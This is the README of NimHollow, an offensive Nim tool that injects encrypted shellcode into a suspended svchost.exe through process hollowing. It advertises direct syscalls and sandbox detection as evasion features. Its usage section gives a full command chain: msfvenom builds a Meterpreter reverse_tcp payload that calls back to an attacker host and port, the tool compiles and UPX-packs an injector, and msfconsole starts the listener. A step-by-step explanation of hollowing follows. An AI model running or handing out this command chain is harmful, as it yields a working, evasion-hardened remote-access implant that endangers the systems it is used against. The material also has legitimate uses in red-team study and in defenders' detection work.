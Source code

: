 NimHollow
==========

Playing around with the [Process Hollowing](https://attack.mitre.org/techniques/T1055/012/) technique using Nim.

Features:

* Direct syscalls for triggering Windows Native API functions with [NimlineWhispers](https://github.com/ajpc500/NimlineWhispers) or [NimlineWhispers2](https://github.com/ajpc500/NimlineWhispers2).
* Shellcode encryption/decryption with [AES in CTR mode](https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#Counter_(CTR)).
* Simple sandbox detection methods from the OSEP course by @offensive-security.

## Usage

Installation:

```console
~$ git clone --recurse-submodules https://github.com/snovvcrash/NimHollow && cd NimHollow
~$ git submodule update --init --recursive
~$ nimble install winim nimcrypto
~$ pip3 install -r requirements.txt
~$ sudo apt install upx -y
```

Example:

```console
~$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.13.13.37 LPORT=31337 EXITFUNC=thread -f raw -o shellcode.bin
~$ python3 NimHollow.py shellcode.bin -i 'C:\Windows\System32\svchost.exe' -o injector --upx --rm [--whispers2]
~$ file injector.exe
injector.exe: PE32+ executable (console) x86-64 (stripped to external PDB), for MS Windows
~$ sudo msfconsole -qr msf.rc
```

Help:

```
usage: NimHollow.py [-h] [-i IMAGE] [-o OUTPUT] [--whispers2] [--debug] [--upx] [--rm] shellcode_bin

positional arguments:
  shellcode_bin         path to the raw shellcode file

optional arguments:
  -h, --help            show this help message and exit
  -i IMAGE, --image IMAGE
                        process image to hollow (default "C:\Windows\System32\svchost.exe")
  -o OUTPUT, --output OUTPUT
                        output filename
  --whispers2           use NimlineWhispers2 to generate syscalls.nim
  --debug               do not strip debug messages from Nim binary
  --upx                 compress Nim binary with upx
  --rm                  remove Nim files after compiling the binary
```

## Process Hollowing in Slides

1\. Create the target process (e.g., `svchost.exe`) in a suspended state.

![](https://user-images.githubusercontent.com/23141800/132571935-07adfa73-f33d-4c37-b21c-7f8534699a8d.png)

2\. Query created process to extract its base address pointer from PEB (**P**rocess **E**nvironment **B**lock).

![](https://user-images.githubusercontent.com/23141800/132571944-de967c1f-1518-4d91-a4d6-4d63120017d7.png)

3\. Read 8 bytes of memory (for 64-bit architecture) pointed by the image base address *pointer* in order to get the actual value of the image base address.

![](https://user-images.githubusercontent.com/23141800/132571951-fb9b08b4-b6ab-4ae9-9387-e6f316fd4500.png)

4\. Read 0x200 bytes of the loaded EXE image and parse PE structure to get the EntryPoint address.

![](https://user-images.githubusercontent.com/23141800/132571964-588c830e-de06-4b09-a708-b32c4150a17c.png)

5\. Write the shellcode to the EntryPoint address and resume thread execution.

![](https://user-images.githubusercontent.com/23141800/132572990-cee11f80-59d4-4fd2-a7f7-245805554b35.png)

## Credits

* @ajpc500 for the [NimlineWhispers](https://github.com/ajpc500/NimlineWhispers) and [NimlineWhispers2](https://github.com/ajpc500/NimlineWhispers2) projects.
* @byt3bl33d3r for the [OffensiveNim](https://github.com/byt3bl33d3r/OffensiveNim/) repository.
* @S3cur3Th1sSh1t and @chvancooten for Nim [code](https://github.com/S3cur3Th1sSh1t/Creds/tree/master/nim) [snippets](https://github.com/byt3bl33d3r/OffensiveNim/issues/16).
